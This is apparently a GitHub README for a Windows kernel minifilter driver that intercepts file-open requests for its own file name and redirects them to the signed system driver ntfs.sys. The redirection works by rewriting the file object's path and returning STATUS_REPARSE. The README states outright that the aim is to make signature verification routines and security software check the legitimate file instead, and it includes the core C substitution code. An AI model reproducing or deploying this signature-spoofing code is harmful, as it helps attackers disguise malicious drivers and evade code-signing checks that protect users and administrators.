

# FileSubstituting

FileSubstituting is a basic Windows kernel-mode minifilter driver that demonstrates file substitution techniques for signature verification scenarios. It intercepts file access requests for a specific target file and seamlessly substitutes them with a trusted, signed system file.



## Overview

This minifilter driver operates as a basic file system filter using the Windows Filter Manager framework. When any application or system process (including WinTrustVerify and signature verification APIs) attempts to access `FileSubstituting.sys`, the driver automatically substitutes the request with `ntfs.sys` - a legitimate, Microsoft-signed system driver.

The substitution occurs at the kernel I/O layer using the STATUS_REPARSE mechanism, making it completely transparent to user-mode applications, signature verification routines, and security software. This demonstrates how kernel-mode file system filters can influence file access operations before they reach the actual file system.

## How It Works

The minifilter driver implements the following workflow:

1. **Registration**: Registers as a minifilter with Windows Filter Manager
2. **IRP Interception**: Hooks `IRP_MJ_CREATE` operations to intercept file open requests
3. **Target Detection**: Examines file names to identify `FileSubstituting.sys` access attempts
4. **File Substitution**: Replaces the target file path with `ntfs.sys` in the file object
5. **Reparse Operation**: Returns `STATUS_REPARSE` to make I/O manager retry with substituted path

This technique affects signature verification because when WinTrustVerify or similar APIs attempt to verify `FileSubstituting.sys`, they actually receive and verify the legitimate `ntfs.sys` file instead.

### Core Substitution Logic

```c
// Target file that triggers substitution
#define TARGET_FILENAME       L"FileSubstituting.sys"
// Trusted system file used as substitute
#define SUBSTITUTE_FILENAME   L"\\??\\C:\\Windows\\System32\\drivers\\ntfs.sys"

// When FileSubstituting.sys is accessed, substitute with ntfs.sys
if (RtlEqualUnicodeString(&nameInfo->FinalComponent, &g_TargetName, TRUE)) {
    // Allocate buffer for substitute path
    PWCH newBuf = ExAllocatePoolWithTag(NonPagedPoolNx, substLen, 'pRFF');
    RtlCopyMemory(newBuf, g_SubstituteName.Buffer, substLen);
    
    // Replace file path in the file object
    fileObject->FileName.Buffer = newBuf;
    fileObject->FileName.Length = substLen;
    fileObject->FileName.MaximumLength = substLen;
    
    // Force I/O manager to reparse with substituted path
    Data->IoStatus.Status = STATUS_REPARSE;
    Data->IoStatus.Information = IO_REPARSE;
    FltSetCallbackDataDirty(Data);
    
    return FLT_PREOP_COMPLETE;
}
```


---

**Developed by Odin-xd**  
Discord: cool.axez